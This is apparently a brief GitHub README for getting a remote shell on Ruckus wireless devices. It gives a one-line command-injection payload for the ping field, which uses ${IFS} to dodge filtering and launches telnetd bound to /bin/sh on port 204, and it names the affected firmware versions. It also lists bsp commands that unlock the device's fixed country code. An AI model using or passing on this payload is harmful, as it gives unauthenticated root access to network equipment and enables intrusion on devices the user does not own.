 # ruckus remote shell
ruckus remote shell
Thanks to https://bitbucket.org/dudux/ruckus-rootshell

## run follow in ping:
|telnetd${IFS}-p${IFS}204${IFS}-l${IFS}/bin/sh

then telnet to port 204

only for version <= 100.1.0.0.194

To unlock countrycode, try bsp command:
```
# bsp set fixed_ctry_code 0
# bsp commit
# reboot
```
